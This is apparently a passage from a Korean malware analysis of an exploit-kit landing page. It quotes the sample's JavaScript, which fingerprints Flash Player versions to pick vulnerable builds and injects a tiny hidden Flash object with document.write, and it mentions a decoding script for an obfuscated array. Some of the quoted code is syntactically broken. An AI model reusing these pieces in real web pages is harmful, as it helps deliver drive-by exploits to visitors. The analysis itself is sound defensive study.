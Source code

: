 ● ckl 함수의 배열에서 -159한 뒤 문자열로 변환시키는 스트립트 작성 및 결과 확인

![image](https://github.com/user-attachments/assets/ee0ad00b-e4b6-4f9d-8d88-b25cd18566ec)

[그림 11. ckl 복호화 스크립트]

![image](https://github.com/user-attachments/assets/d7fb262d-fe12-4f68-ad3a-167f9cdab3a9)

[그림 12. ckl 복호화 결과값]

● CheckVersion 함수들은 apple 관련 정보를 가져와 확인하는 것을 볼 수 있는데, swfobject.js에서 Flash Player의 버전을 확인한 뒤 리턴하는 것을 확인 

● 즉, CheckVersion 함수들은 Flash Player의 버전 및 조건을 비교하여 체크하는 기능을 수행

```javascript
function CheckVersion12() {
        return apple.major== 12;
    }
function CheckVersion13() {
        if(apple.major!= 13) return false;
        if(apple.major== 13 && apple.minor== 0 && apple.rev== 0 && apple.nbwm > 241) return false;
        return true;
    }
function CheckVersion14() {
        if(apple.major!= 14) return false;
        if(apple.major== 14 && apple.minor== 0 && apple.rev== 0 && apple.nbwm > 179) return false;
        return true;
    }
function CheckVersion15() {
        if(apple.major!= 15) return false;
        if(apple.major== 15 && apple.minor== 0 && apple.rev== 0 && apple.nbwm > 167) return false;
        return true;
    }
function CheckVersion16() {
        if(apple.major!= 16) return false;
        if(apple.major== 16 && apple.minor== 0 && apple.rev== 0 && apple.nbwm > 296) return false;
        return true;
    }
```

![image](https://github.com/user-attachments/assets/59528d99-54f1-45e0-a170-51a142b3136d)

[그림 13. swfobject.js 1.]

![image](https://github.com/user-attachments/assets/768002ca-0ff1-442b-98e4-388f7231b00e)

[그림 14. swfobject.js 2.]

● flash_run 함수는, <object>와 document.write를 사용하여 html에 플래시 객체를 삽입하여 웹 페이지에서 플래시를 실행하는 함수

```javascript
function flash_run(fu, fd) {
    var f_use'<object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" allowScriptAccess="always" width="60" height="1">';
        f_use+= '<param name="movie" value="'fu'" />';
        f_use+= '<param name="play" value="true"/>';
        f_use+= '<param name="FlashVars" value="'fd'" />';
        f_use+= '<!--[if !IE]>-->';
        f_use+= '<object type="application/x-shockwave-flash" data="'fu'" allowScriptAccess="always" width="60" height="1">';
        f_use+= '<param name="movie" value="'fu'" />';
        f_use+= '<param name="play" value="true"/>';
        f_use+= '<param name="FlashVars" value="'fd'" />';
        f_use+= '<!--<![endif]-->';
        f_use+= '<!--[if !IE]></object><!--<![endif]-->';
        f_use+= '</object>';
        document.write(f_use);
```